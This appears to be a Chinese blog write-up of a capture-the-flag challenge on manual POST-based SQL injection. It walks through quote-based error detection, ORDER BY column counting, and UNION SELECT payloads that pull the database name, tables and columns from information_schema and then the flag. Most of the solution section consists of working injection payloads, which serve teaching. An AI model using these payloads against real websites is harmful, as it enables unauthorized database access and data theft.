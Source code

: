 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入  
    
---
```


## 原理:
> 简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为--- http://www.xxx.com?test=123 ---，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:
>
>一个简单的输入搜索框

## 考察点：
>sql注入中的post注入。
>一般有两种方式：
>第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。
>第二种方式，通过手工注入，构造payload，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：
>1.首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：1.用户可以控制传参，2.用户输入的语句被带入数据库进行查询。

>2.Post data 框 输入search=' ，发现页面出错，可知存在注入的可能。继续输入search=' and 1=1，发现依然报错，search=' and 1=1# 发现变回正常页面。证明存在注入点，可用'  #进行闭合。
>如何理解所构造的payload？
>
>OK,简单的解释一下SQL语句.我们搜索的内容是--- ' and 1=1 # ---,代入到数据库的语句是:--- select * from XXX where search = ' ' and 1=1 #' ---，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:--- select * from XXX where content = ' ' and 1=1 ---,这个语句理解就很简单了。

> 3.用order by 查询当前页面连接的列名个数：--- search=' order by 1# ---页面返回正常 ，直到4，页面开始出错，说明有3个。
> 4.使用union 联合查询 显错点，输出点，语句：--- search='  union select 1,2,3#  ---，页面爆出显位2，3。
> 5.OK,接下来的步骤就很容易了，利用hackerbar插件，构造--- search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# ---,得到数据库名为news。
> 6.接着获取表名，构造--- search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # ---，得到表名为f1agfl4gher3。
> 注意：这里需要把数据库名称“news”做了一个16进制Hex编码，编码之后为---0x6E657773 ---。
>7.同理获取列名：--- search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# --- ，得到列名为h3r31sfl4g。
> 8.最后获取数据，--- search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # ---，得到flag！

> --- flag{sql_ information_ schema_ hack} ---





>[参考链接（一）：](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)
>[参考链接（二）：](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
